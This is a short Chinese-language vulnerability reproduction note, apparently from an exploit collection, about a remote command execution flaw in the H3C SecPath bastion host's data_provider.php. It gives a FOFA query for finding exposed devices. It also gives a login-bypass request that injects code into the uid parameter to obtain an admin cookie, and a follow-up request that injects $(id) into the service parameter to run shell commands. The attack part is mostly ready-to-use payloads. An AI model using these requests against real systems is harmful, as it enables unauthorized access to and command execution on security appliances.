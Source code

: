 # H3C-SecParh堡垒机-data_provider.php-远程命令执行漏洞

## 漏洞描述

H3C SecParh堡垒机 data_provider.php 存在远程命令执行漏洞，攻击者通过任意用户登录或者账号密码进入后台就可以构造特殊的请求执行命令

## 漏洞影响

> [!NOTE]
>
> H3C SecParh堡垒机

## 漏洞影响

> [!NOTE]
>
> H3C SecParh堡垒机 

## FOFA

> [!NOTE]
>
> app="H3C-SecPath-运维审计系统" && body="2018"

## 漏洞复现

登录页面如下

![image-20210616132951212](H3C-SecParh堡垒机-data_provider.php-远程命令执行漏洞.assets/1627363093268538.jpg)

先通过任意用户登录获取Cookie

```
/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=admin
```

![image-20210616133356940](H3C-SecParh堡垒机-data_provider.php-远程命令执行漏洞.assets/1627363093463478.jpg)

```
/audit/data_provider.php?ds_y=2019&ds_m=04&ds_d=02&ds_hour=09&ds_min40&server_cond=&service=$(id)&identity_cond=&query_type=all&format=json&browse=true
```

![image-20210616133643292](H3C-SecParh堡垒机-data_provider.php-远程命令执行漏洞.assets/162736309384631.jpg)